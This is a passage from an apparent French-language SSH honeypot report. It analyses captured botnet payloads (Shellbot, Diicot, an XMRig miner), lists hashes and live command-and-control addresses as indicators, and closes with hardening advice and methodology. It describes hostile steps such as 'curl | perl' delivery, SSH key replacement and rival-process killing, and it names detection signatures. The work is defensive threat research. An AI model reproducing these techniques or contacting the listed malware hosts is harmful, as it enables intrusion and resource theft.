Le binaire commun à la famille (`a505de0a…`, collecté sur 7 de ses 15 hôtes) est détecté par 34 moteurs sur 62, mais seulement avec des étiquettes génériques (cheval de Troie compressé, rootkit). Les bacs à sable relèvent des fichiers cachés et des segments chiffrés ou compressés, et **aucune activité réseau** : ce qu'il est censé faire ne s'est pas produit pendant leurs exécutions. URLhaus étiquette deux hôtes de la famille comme P2Pinfect, et VirusTotal n'utilise ce nom que pour des échantillons plus anciens de `47.86.176.209`. P2Pinfect reste une hypothèse plausible ([analyse d'Unit 42](https://unit42.paloaltonetworks.com/peer-to-peer-worm-p2pinfect/)), pas un fait établi.

### zed : Shellbot, le bot IRC d'Outlaw

Le script `66.116.243.130/zed`, lu comme du texte, est un Shellbot complet — le bot IRC en Perl de la famille Outlaw :

- il se connecte au serveur IRC **`103.114.163.234` sur le port 22**, pour que son trafic ressemble à du SSH, rejoint le canal `#idc`, et n'obéit qu'à deux pseudos, `SEC` et `ZEC` ;
- il se fait passer pour `/usr/sbin/httpd -FOREGROUND` dans la liste des processus ;
- ses commandes : commandes shell arbitraires, shell inversé, téléchargement de fichiers, scan de ports, **flood UDP (DDoS)**, effacement de `/mnt`, et exécution de code Perl. Ses noms de variables sont en portugais.

Le bac à sable de VirusTotal confirme la connexion IRC vers `103.114.163.234:22`. Ce serveur n'est connu d'aucune des bases d'abuse.ch, et aucun moteur de VirusTotal ne le signale au 4 octobre. Les 15 scripts différents collectés sur `154.70.152.216/zed` sont eux aussi tous des Shellbot, quand VirusTotal les connaît (8 sur 15). Comme la livraison se fait par `curl | perl`, rien de tout cela ne touche le disque. Références : [Elastic Security Labs sur Outlaw](https://www.elastic.co/security-labs/outlaw-linux-malware), [Kaspersky sur Outlaw](https://securelist.com/outlaw-botnet/116444/).

### Diicot : un installeur qui pose un mineur et ferme la porte

`.bia` et `.dcplm` sont des scripts shell. En bac à sable, `.dcplm` :

- vérifie l'adresse IP publique de la machine (`ifconfig.co`) ;
- télécharge `fakepika`, `.system3d` — que ThreatFox recense comme XMRig — et `.dc.json`, **renommé `config.json`, le nom par défaut du fichier de configuration de XMRig** ;
- installe sa persistance (une unité systemd `myservice.service` et une crontab), écrit un faux `/usr/bin/sshd`, et cache ses fichiers dans `/var/tmp/.ladyg0g0/` ;
- **supprime les `authorized_keys` de root et ajoute sa propre clé SSH** : la machine est verrouillée pour tous les autres ;
- tue d'autres processus (`pkill`), et affiche sa progression en roumain : *« Minerul Luat »* (mineur récupéré), *« Minerul Pornit »* (mineur démarré).

Le mineur se connecte ensuite très probablement à `91.108.243.251:3337` : le port est typique d'un proxy de minage, et l'adresse est signalée comme malveillante par 10 moteurs de VirusTotal, sans qu'aucun n'en précise le rôle. Un webhook Discord dans la mémoire du script correspond à l'habitude connue du groupe d'utiliser Discord pour le contrôle. `.bia` commence de la même façon — même répertoire caché, mêmes messages, même webhook Discord — mais son exécution en bac à sable s'arrête avant le téléchargement du mineur. Référence : [Darktrace (ex-Cado Security) sur Diicot](https://www.darktrace.com/blog/tracking-diicot-an-emerging-romanian-threat-actor).

### Le mineur au chemin aléatoire (64.89.161.144)

Celui-ci est un simple mineur : le bac à sable y trouve **XMRig 6.25.0** et le protocole de minage `stratum`. Il vérifie l'IP publique, liste les périphériques PCI (`lspci`, en général pour chercher des cartes graphiques), installe de faux services `chronyd` et `nftables` et un binaire nommé `journald`, et **active les huge pages**, une optimisation classique de XMRig. Il communique avec son propre hôte sur des ports et des chemins aléatoires.

### Tableau de référence

| Payload | Famille (VirusTotal) | Détections | VirusTotal | MalwareBazaar | URLhaus |
|---|---|---:|---|---|---|
| kswpad `amd64` | Kaiji | 43/64 | [rapport](https://www.virustotal.com/gui/file/1e3eb765015fd335cfdcb0ddd020565690b5a2f15a2a62406d750bcb21b6d77b) | [échantillon](https://bazaar.abuse.ch/sample/1e3eb765015fd335cfdcb0ddd020565690b5a2f15a2a62406d750bcb21b6d77b/) | [1](https://urlhaus.abuse.ch/url/3893671/), [2](https://urlhaus.abuse.ch/url/3912671/) |
| kswpad `kal64` | BillGates (Setag) | 39/63 | [rapport](https://www.virustotal.com/gui/file/b02337d82c44ed46e5b186bd54cde717be39da81a29fb332090d10a5c444ccb6) | [échantillon](https://bazaar.abuse.ch/sample/b02337d82c44ed46e5b186bd54cde717be39da81a29fb332090d10a5c444ccb6/) | [1](https://urlhaus.abuse.ch/url/3893471/), [2](https://urlhaus.abuse.ch/url/3912672/) |
| kswpad `kswpad` | BillGates (Setag) | 48/64 | [rapport](https://www.virustotal.com/gui/file/6fddaa099096c0caee183e4bb95e9fe79003e6ae6dc41d6b1aa3b4aec221bd38) | [échantillon](https://bazaar.abuse.ch/sample/6fddaa099096c0caee183e4bb95e9fe79003e6ae6dc41d6b1aa3b4aec221bd38/) | [1](https://urlhaus.abuse.ch/url/3893722/), [2](https://urlhaus.abuse.ch/url/3912670/) |
| kswpad `/b/linux` | scanner SSH | 37/64 | [rapport](https://www.virustotal.com/gui/file/25c34c028f0c119da251ca5d17020df79a030c7c3b86c5a8df699065016a21a2) | [échantillon](https://bazaar.abuse.ch/sample/25c34c028f0c119da251ca5d17020df79a030c7c3b86c5a8df699065016a21a2/) | [1](https://urlhaus.abuse.ch/url/3893519/) |
| `/linux` | générique (compressé, rootkit) | 34/62 | [rapport](https://www.virustotal.com/gui/file/a505de0af54408dcde2f869608398a409908543a43fad15397a342b2200f8a52) | [échantillon](https://bazaar.abuse.ch/sample/a505de0af54408dcde2f869608398a409908543a43fad15397a342b2200f8a52/) | [1](https://urlhaus.abuse.ch/url/3552086/) (+6) |
| `zed` (66.116.243.130) | Shellbot | 33/61 | [rapport](https://www.virustotal.com/gui/file/8fe5062ab1da959b65b80fdd0da5e6b973247ba273c694d428edf2f6ec805aa4) | — | [1](https://urlhaus.abuse.ch/url/3928264/) |
| Diicot `.bia` | téléchargeur shell | 16/61 | [rapport](https://www.virustotal.com/gui/file/df3b308b62e63f71f2d8e46931380fd9bfce0eec3c37300ae4833aafc7e7dfa9) | [échantillon](https://bazaar.abuse.ch/sample/df3b308b62e63f71f2d8e46931380fd9bfce0eec3c37300ae4833aafc7e7dfa9/) | [1](https://urlhaus.abuse.ch/url/3928263/) |
| Diicot `.dcplm` | téléchargeur shell | 30/61 | [rapport](https://www.virustotal.com/gui/file/87cac5b8ac2e5e6b48ecc5ab5dc6c1c47b00fdbe2c12effd922a4a3e600bd55e) | [échantillon](https://bazaar.abuse.ch/sample/87cac5b8ac2e5e6b48ecc5ab5dc6c1c47b00fdbe2c12effd922a4a3e600bd55e/) | [1](https://urlhaus.abuse.ch/url/3928344/) |
| 64.89.161.144 | XMRig (étiquette VirusTotal : générique) | 22/61 | [rapport](https://www.virustotal.com/gui/file/712737cdde50fcce895f263ea18ed7f8e425dcb72f8ec63101ea0361c6602140) | [échantillon](https://bazaar.abuse.ch/sample/712737cdde50fcce895f263ea18ed7f8e425dcb72f8ec63101ea0361c6602140/) | [1](https://urlhaus.abuse.ch/url/3793559/) |

Côté infrastructure, ThreatFox recense `151.241.154.172` comme [serveur de commande Remcos](https://threatfox.abuse.ch/ioc/1846048/), et `45.153.34.212` comme [serveur de commande XMRig](https://threatfox.abuse.ch/ioc/1834524/), [proxy de minage XMRig](https://threatfox.abuse.ch/ioc/1815853/) et [point de distribution Mirai](https://threatfox.abuse.ch/ioc/1820025/).

Nouveaux indicateurs, vus dans les bacs à sable ou dans le script `zed`, et absents des bases d'abuse.ch au 4 octobre :

| Indicateur | Rôle |
|---|---|
| `103.114.163.234:22` | serveur IRC de Shellbot (`zed`) |
| `91.108.243.251:3337` | très probablement le proxy de minage de Diicot |
| `web.2k5u.ru`, `198.251.81.61:2070` | commande et contrôle de Kaiji |
| `else.u27v.me`, `web.yk4s.com` | commande et contrôle de BillGates |
| `big.auc5.com`, `45.129.230.254:60137`, `85.209.176.174:60137` | remontée du scanner SSH |

### Ce que ça nous dit

Chaque payload identifié est soit un **mineur** (XMRig, installé par Diicot ou par le dropper au chemin aléatoire), soit un **bot DDoS** (BillGates, Kaiji, le flood UDP de Shellbot, Mirai), soit un **outil de propagation** (le scanner SSH). La plupart s'installent pour durer — faux services système, `ps` et `netstat` piégés, répertoires cachés — et deux campagnes ferment la porte derrière elles (Diicot remplace les clés SSH ; Outlaw change le mot de passe root dans 632 des 635 connexions qui le font). **Aucun des payloads identifiés ne vole de données.** C'est la même conclusion que les commandes de recon, atteinte par l'autre bout : la cible, c'est le CPU et la bande passante de la machine, pas son contenu.

---

## Ce que j'en retiens

**Sur ce que font vraiment les attaquants.**

1. **Le bruteforce de mot de passe est le seul vecteur observé.** Zéro exploitation de vulnérabilité en 530 860 tentatives. La surface d'attaque réelle de SSH, ce n'est pas le protocole, ce sont vos mots de passe.
2. **Une grande partie des accès n'est pas exploitée immédiatement.** 40 % des connexions réussies n'exécutent aucune commande. Le marché est segmenté : certains valident des identifiants, d'autres les achètent et les exploitent.
3. **Le but est presque toujours le vol de ressources.** Le bloc de recon est entièrement centré sur CPU, RAM et disque. La chasse aux données existe mais reste marginale — 29 connexions — et vise les identifiants et les rebonds (hash de mot de passe, historiques, `known_hosts`) plus que le contenu. Cette rareté est en partie un biais du dispositif : voir [Angles morts](#angles-morts).
4. **La concurrence entre botnets est féroce.** `pkill`, vidage de `/etc/hosts.deny`, suppression des fichiers rivaux, changement du mot de passe root pour verrouiller les autres dehors.
5. **L'anti-forensique est quasi inexistante.** 2,6 % des connexions qui exécutent des commandes effacent leurs traces. Vos logs contiennent la vérité, si vous les lisez.

**Sur ce qu'il faut faire.**

- **Désactivez l'authentification par mot de passe.** `PasswordAuthentication no` et `PubkeyAuthentication yes`. Cela neutralise 100 % de ce que j'ai observé sur cinq mois.
- **Interdisez le login root direct.** `PermitRootLogin no` — `root` concentre 78,6 % des tentatives.
- **Ne comptez pas sur le changement de port.** 3 600 tentatives par jour sur le port 2222 — certes l'alternative la plus prévisible.
- **Surveillez les signatures évidentes.** La clé `mdrfckr` dans un `authorized_keys`, le login `345gs5662d34`, une bannière client `libssh` : trois règles de détection quasiment sans faux positifs.
- **Surveillez `authorized_keys` par intégrité**, pas seulement par permissions. L'attaque commence par `rm -rf .ssh`, un simple `chattr +i` est anticipé.
- **Bloquer `wget` et `curl` ne suffit pas.** Les payloads transitent aussi directement par le canal SSH.

**Sur la construction d'un honeypot.**

L'architecture microVM coûte plus cher qu'un shell émulé, en développement comme en ressources. Mais elle passe les tests de détection des attaquants — `ls -lh $(which ls)` en est la preuve — et elle permet de dormir tranquille, parce que l'absence de réseau dans la VM n'est pas une règle de filtrage qu'on peut contourner, c'est une absence de matériel.

La contrainte qui décide de tout, c'est le temps de démarrage. Un shell servi en 39 ms médians est indiscernable d'un serveur réel ; le même shell servi en deux secondes trahit le piège avant la première commande. C'est ce qui impose le type de machine `microvm` plutôt qu'une VM classique, et la chaîne qcow2 à trois niveaux plutôt qu'une copie d'image. Tout le reste de l'architecture découle de ce budget de quelques dizaines de millisecondes.

Et la persistance par attaquant, via les overlays qcow2, est ce qui donne à ces données leur profondeur : pouvoir observer le même opérateur `kswpad` revenir sur *sa* machine pendant quatre mois, c'est une information qu'un honeypot sans état ne produira jamais.

---

## Angles morts

L'architecture qui rend ce honeypot sûr conditionne aussi ce qu'il peut voir. Quatre biais méritent d'être dits clairement.

**Le mot de passe est lié à l'IP.** Dans un marché à deux étages, un bot valide l'identifiant et un autre acteur, depuis une autre IP, l'utilise. Ici, ce second acteur se voit attribuer un autre mot de passe (neuf chances sur dix que l'identifiant acheté échoue), et même s'il entre, il tombe sur une VM vierge, sans les modifications du premier. Je capture donc bien mieux le premier maillon de la chaîne que le second — et c'est le second qui irait le plus probablement chercher des données.

**Pas de réseau, pas de second étage.** La chasse aux secrets (clés cloud, fichiers `.env`, wallets) passe souvent par des scripts téléchargés en second étage. Ces téléchargements échouent ici, donc cette étape ne s'exécute jamais. Le même choix fait que j'ai les URLs des payloads, pas les binaires : ce qu'ils font réellement n'est connu que par des bacs à sable tiers — voir [Suivre les payloads](#suivre-les-payloads).

**La VM n'a aucune valeur apparente.** 256 Mo de RAM, un disque minuscule, aucun service qui tourne vraiment. Le bloc de recon automatique la juge sans intérêt et passe son chemin avant qu'un humain ne s'y intéresse.

**Le port 2222 n'est pas exotique.** Savoir si les scanners essaient vraiment tous les ports, ou seulement le 22 et les alternatives habituelles, dépasse ce dispositif. Pour y répondre, il faut un autre capteur : écouter sur de nombreux ports — voire tous — et journaliser chaque connexion, chaque port touché et chaque sonde envoyée par les scanners pour identifier le service. C'est un projet à part entière.

---

## Méthodologie et éthique

- **Données** : base SQLite du honeypot, du 28/04/2026 au 21/09/2026. Les commandes ont été reconstruites à partir des flux d'entrée (`"i"`) des enregistrements asciinema v2, et non depuis un historique shell — donc rien n'échappe à un `history -c`.
- **Connexions** : la base stocke une ligne par canal SSH (« session »), sans identifiant de connexion. Les connexions ont été reconstituées en rattachant chaque session à la connexion réussie qui la précède, depuis la même IP. Les chiffres par connexion utilisent la même extraction que les chiffres d'authentification (21 septembre, 11 h 35 UTC) et en reproduisent exactement les totaux : 1 656 connexions réussies, 12 939 sessions. Les sessions sont rattachées à la dernière connexion réussie depuis la même IP. Quand plusieurs connexions partagent la même seconde, leurs sessions ne peuvent pas être réparties : c'est le cas 5 fois, principalement pour une IP qui a ouvert 32 connexions dans la même seconde le 11 juin et exécuté 79 commandes en 4 secondes. Chaque cas compte pour une connexion ; les commandes répétées suggèrent que 4 à 6 de ces 32 connexions ont réellement exécuté quelque chose, si bien que les décomptes de connexions peuvent être sous-estimés de quelques unités.
- **Géolocalisation** : base MaxMind GeoLite2-Country, interrogée **localement**. Aucune adresse IP n'a été transmise à un service tiers.
- **Payloads** : pendant l'étude, aucun binaire ni script n'a été téléchargé, analysé dynamiquement ou exécuté. La microVM est dépourvue d'interface réseau ; toutes les tentatives de téléchargement ont échoué au niveau socket. Les URLs publiées proviennent exclusivement de la lecture des frappes clavier. Le 03/10/2026, les URLs et les hôtes de distribution ont été recherchés dans les bases d'abuse.ch (URLhaus, ThreatFox, MalwareBazaar) ; le 04/10/2026, les hashes des payloads ont été recherchés sur VirusTotal, ainsi que les rapports comportementaux de ses bacs à sable, et les deux payloads encore en ligne ont été téléchargés dans une quarantaine en lecture seule pour vérifier leur hash — jamais exécutés ; le script Perl a été lu comme du texte. Ces recherches sont les seules données transmises à un tiers, et ce sont des indicateurs déjà publiés ici.
- **Vie privée** : les adresses IP publiées sont celles de machines ayant activement attaqué un système tiers, et celles d'infrastructures de distribution de malware. Elles sont diffusées comme indicateurs de compromission.
- **Attribution** : aucune. La géolocalisation IP décrit l'emplacement d'une infrastructure, pas l'identité ou la nationalité d'un opérateur.
